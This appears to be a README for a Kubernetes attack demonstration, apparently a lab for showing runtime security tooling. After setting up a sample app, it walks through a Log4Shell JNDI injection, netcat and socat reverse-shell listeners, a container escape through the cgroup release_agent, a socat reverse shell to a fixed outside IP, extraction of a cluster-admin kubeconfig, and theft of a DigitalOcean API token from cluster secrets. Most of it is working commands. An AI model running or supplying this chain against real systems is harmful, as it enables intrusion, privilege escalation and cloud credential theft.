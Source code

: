 # Installing the Kubernetes application
1. Login into your victim machine via ssh with username and passwort
2. Switch to into the yaml directory
```
cd yaml
```
3. apply the the needed yaml files to deploy the sample application and the ingress to access it.
```
kubectl apply -f ~/yaml/sample_app_deployment.yml
```

```
kubectl apply -f ~/yaml/sample_app_service_ingress.yml
```
4. Access the application via Browser. You can get the URL from the ingress yaml file.
```
cat ~/yaml/sample_app_service_ingress.yml
```
# Installing NeuVector
```
helm repo add neuvector https://neuvector.github.io/neuvector-helm/
```
```
helm install neuvector neuvector/core \
  --namespace cattle-neuvector-system \
  -f ~/yaml/neuvector-values.yaml \
  --version 2.6.0 \
  --create-namespace
```

# Start the Attack
1. First open netcat in the first terminal to receive remote shells
```
sudo nc -lvnp 443
```
## Then open socat in the 2nd terminal
```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

## Start the LDAP Server on the 3rd terminal
```
sudo python3 poc.py --userip <puplic IP> --webport 80 --lport 443 &
```
+ Tells the client please load a java class from my webserver

```
curl http://sample-app.default.<PUPLIC IP VICTIM>.sslip.io/login -d "uname=test&password=invalid" -H 'User-Agent: ${jndi:ldap://<PUPLIC IP ATTACKER:1389/a}'
```

## Working inside of the container
+ do a `ps`
+ do a `ls`
+ Dry to download `kubectl`
```
curl -LO --insecure "https://dl.k8s.io/release/$(curl -L -s --insecure https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"; chmod +x kubectl; mv kubectl /usr/bin/
```
+ Execute `kubectl get pods`
+ Let's try something else and list the Linux capabilities of the container
```
capsh --print
```

+ Let's try to change this by exploiting a Kernel vulnerability:
```
unshare -UrmC bash
capsh --print
```
# Break out of the container with an additional vulnerability
+ manipulate the c group release agent
```
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
```
+ we mount the cgroup controller to /tmp/cgroup
+ and create a cgroup called x
+ Now we configure the notification service of the release agent 

```
echo 1 > /tmp/cgrp/x/notify_on_release
```
```
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
```
```
echo $host_path
```
+Set the release agent to execute /{overlay_fs_host_path}/cmd on the host (/cmd inside of the container) when the cgroup is released

```
echo "$host_path/cmd" > /tmp/cgrp/release_agent
```

```
echo '#!/bin/bash' > /cmd
echo "socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:3.68.166.70:4444" >> /cmd
chmod a+x /cmd
```
+ Run echo in the cgroup, which will directly exit and trigger the release agent cmd
```
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

# Execute commands on the new host terminal

```
ls -al
whoami
docker ps
```

## Get access to the K8s API
```
docker cp kubelet:/usr/local/bin/kubectl /usr/bin/
```
+ Get kubeconfig
```
kubectl --kubeconfig $(docker inspect kubelet --format '{{ range .Mounts }}{{ if eq .Destination "/etc/kubernetes" }}{{ .Source }}{{ end }}{{ end }}')/ssl/kubecfg-kube-node.yaml get configmap -n kube-system full-cluster-state -o json | jq -r .data.\"full-cluster-state\" | jq -r .currentState.certificatesBundle.\"kube-admin\".config | sed -e "/^[[:space:]]*server:/ s_:.*_: \"https://127.0.0.1:6443\"_" > kubeconfig_admin.yaml
```
```
export KUBECONFIG=$(pwd)/kubeconfig_admin.yaml
```


+ Now we are admin in the Kubernetes cluster 
```
kubectl get pods -A
```
## Get Digital Ocean Token
```
kubectl get deployments -A
```

```
kubectl get secrets -n kube-system
```
+ Get the cloud provider token
```
do_token=$(kubectl get secret -n kube-system digitalocean -o jsonpath="{.data.access-token}" | base64 --decode)
echo $do_token
```
+ Login into digital ocen
```
doctl auth init -t $do_token
```

+ create a compute ressource 
```
doctl compute droplet create hacking-demo --region fra1 --size s-1vcpu-1gb --image ubuntu-20-04-x64 --wait
```
+ show machine in the digitial ocean dashboard

+ After the machine is created please delete the resource
```
doctl compute droplet delete hacking-demo -f
```


